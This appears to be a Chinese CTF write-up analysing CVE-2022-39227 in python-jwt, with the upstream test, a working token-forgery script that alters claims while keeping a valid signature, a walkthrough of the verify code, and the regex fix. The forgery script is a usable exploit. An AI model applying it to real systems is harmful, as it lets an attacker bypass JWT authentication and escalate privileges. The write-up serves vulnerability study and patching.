 0x00 起因
=======

前两天打祥云杯初赛的时候有一道很有意思的web题，**FunWEB**，其中涉及到了jwt伪造相关知识，多方查询找到了一个pyjwt包的CVE，编号为CVE-2022-39227，不过并没有详细的POC，但是有关于源码的修改内容，我们直接跟入github中的相关[commit](https://github.com/davedoesdev/python-jwt/commit/88ad9e67c53aa5f7c43ec4aa52ed34b7930068c9)

0x01 分析
=======

先跳过对漏洞的修补部分，直接看最下面，在test中新增加了一个对这个CVE的测试内容，我们来看一下

```python
#test/vulnerability_vows.py  
""" Test claim forgery vulnerability fix """  
from datetime import timedelta  
from json import loads, dumps  
from test.common import generated_keys  
from test import python_jwt as jwt  
from pyvows import Vows, expect  
from jwcrypto.common import base64url_decode, base64url_encode  
​  
@Vows.batch  
class ForgedClaims(Vows.Context):  
   """ Check we get an error when payload is forged using mix of compact and JSON formats """  
   def topic(self):  
       """ Generate token """  
       payload = {'sub': 'alice'}  
       return jwt.generate_jwt(payload, generated_keys['PS256'], 'PS256', timedelta(minutes=60))  

   class PolyglotToken(Vows.Context):  
       """ Make a forged token """  
       def topic(self, topic):  
           """ Use mix of JSON and compact format to insert forged claims including long expiration """  
          [header, payload, signature] = topic.split('.')  
           parsed_payload = loads(base64url_decode(payload)) 
           parsed_payload['sub'] = 'bob'  
           parsed_payload['exp'] = 2000000000  
           fake_payload = base64url_encode((dumps(parsed_payload, separators=(',', ':'))))  
           return '{" ' + header + '.' + fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' +signature + '"}' 
       class Verify(Vows.Context):  
           """ Check the forged token fails to verify """  
           @Vows.capture_error  
           def topic(self, topic):  
               """ Verify the forged token """  
               return jwt.verify_jwt(topic, generated_keys['PS256'], ['PS256'])  
           def token_should_not_verify(self, r):  
               """ Check the token doesn't verify due to mixed format being detected """  
               expect(r).to_be_an_error()  
               expect(str(r)).to_equal('invalid JWT format')
```

其实别的我们可以直接忽略，直接看`PolyglotToken`部分，里面就是fakeJWT的构造代码，可以看到其中先将原始的JWT拆分为`[header, payload, signature]`三部分，然后将payload也就是原始存储信息的部分取了出来，然后添加伪造内容后重新进行base64编码（`separators=(',', ':')`这部分相当于移除了直接编码时会添加的空格）生成了fakepayload，并且最终按如下形式构造生成新的JWT（其实此时已经不能说是JWT了，因为生成的字符串已经完全没有JWT的影子在了）

> {" **header**.**fake\_payload**.":"","protected":"**header**", "payload":"**payload**","signature":"**signature**"}

其实相比较这个我更好奇的是为什么会有这样的漏洞，我们先用含有漏洞的包尝试生成一个JWT并使用fakepayload解析

```python
#testFakeJWT.py  
from json import *  
from python_jwt import *  
from jwcrypto import jwk  
payload={'username':"jlan","secret":"10010"}  
key=jwk.JWK.generate(kty='RSA', size=2048)  
jwtjson=generate_jwt(payload, key, 'PS256', timedelta(minutes=60))  
[header, payload, signature] = jwtjson.split('.')  
parsed_payload = loads(base64url_decode(payload))  
print(parsed_payload)  
parsed_payload['username']="admin"  
parsed_payload['secret']="10086"  
fakepayload=base64url_encode((dumps(parsed_payload, separators=(',', ':'))))  
fakejwt='{"' + header + '.' + fakepayload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'  
print(verify_jwt(fakejwt, key, ['PS256']))  

#{'exp': 1667333054, 'iat': 1667329454, 'jti': 'U0kwnEYCOgUZ_PhXn7PFTQ', 'nbf': 1667329454, 'secret': '10010', 'username': 'jlan'}  
#({'alg': 'PS256', 'typ': 'JWT'}, {'exp': 1667333054, 'iat': 1667329454, 'jti': 'U0kwnEYCOgUZ_PhXn7PFTQ', 'nbf': 1667329454, 'secret': '10086', 'username': 'root'})  
#进程已结束,退出代码0  
#可以看到我们的结果确实被解析了
```

可以看到我们的结果确实被解析了，那么我们使用fakeJWT跟入看看verify过程到底做了什么

0x02 验证
=======

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-fdb235968628ef5d79a0bdd06ffbf59c94109b46.png)

可以看到首先把JWT按照.来分割，并分别存入`header, claims, _`变量中，然后对header部分进行base64解码，此处解码会忽略掉非base64字符，并且对属性进行逐个验证（在`ignore_not_implemented`参数为空或False的前提下）

再向下看到`if pub_key:`部分，如果我们传入了密钥就会对JWT签名进行解析，我们直接跟入`token.deserialize(jwt, pub_key)`来看验证过程

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-0c24032e30e790ca10e69f3a2abe0a9dac9416ee.png)

可以看到首先对原始传入的JWT尝试进行json解析，然后再对其进行签名验证，其中`_deserialize_signature`将签名解析后取出，`_deserialize_b64`验证内容需不需要再进行base64解码

总之在这个函数前面部分的内容就是将json格式的数据进行解码，并将JWT所需要的对应属性赋给o这个对象，**在我们构造的json中，o的所有属性都是来自原始正常JWT的**，在完成解析后，`self.objects`将会被赋值为o，最后进入`verify`函数

![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-8027b2e50199dd0d87d39f65d7afc7c730630481.png)

可以看到在验证时所使用的所有数据都来自于原始的正常JWT，所以验证必定通过，那么下一步我们就来看解析的部分

0x03 解析
=======

其实没什么可说的，因为解析只有一句代码

```python
#header, claims, _ = jwt.split('.')  
parsed_claims = json_decode(base64url_decode(claims))
```

上文可见我们传入的json先以字符串的格式按点分割，第二部分为我们的fakepayload部分，我们只需要把原始payload取出进行修改即可

0x04 总结
=======

明显我们能看出这个漏洞的产生是因为解析payload内容和验证签名的payload内容不一致造成的，而在后续的修复部分中，也针对JWT的内容进行了正则匹配，来防止json格式的注入

```python
 _jwt_re = re.compile(r'^[A-Za-z0-9\-_]+\.[A-Za-z0-9\-_]+\.[A-Za-z0-9\-_]*$')
 def _check_jwt_format(jwt):
     if not _jwt_re.match(jwt):
         raise _JWTError('invalid JWT format')
```

引用内容：<https://github.com/davedoesdev/python-jwt/commit/88ad9e67c53aa5f7c43ec4aa52ed34b7930068c9>